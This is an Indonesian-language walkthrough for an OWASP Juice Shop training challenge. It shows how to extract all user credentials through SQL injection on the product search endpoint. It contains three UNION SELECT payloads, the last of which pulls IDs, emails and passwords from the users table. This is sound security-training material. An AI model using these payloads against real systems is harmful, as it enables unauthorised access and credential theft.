 # User Credentials OWASP Juice Shop

Link resource: https://demo.owasp-juice.shop/#/score-board?categories=Injection&showDisabledChallenges=false

Retrieve a list of all user credentials via SQL Injection.

## Solusi

Vulnerable source code:

<img src="../kelas/img/81.png" />

Untuk mengambil semua kredensial user, kita pakai titik akhir yang digunakan di atas, yaitu /rest/products/search?q=, tempat dipakainya `UNION SELECT` menggunakan tabel pengguna

```sql
')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM users--
```

Di sini kita periksa nama kolom dan mencoba seperti id, email, kata sandi dalam parameter.

<img src="../kelas/img/82.png" />

```sql
')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
```

Tapi query tersebut tetap memberikan data lain, jadi kemungkinan besar ada kondisi atau filter yang belum sesuai dengan yang kita maksud.

```sql
p')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
```

<img src="./img/83.png" />
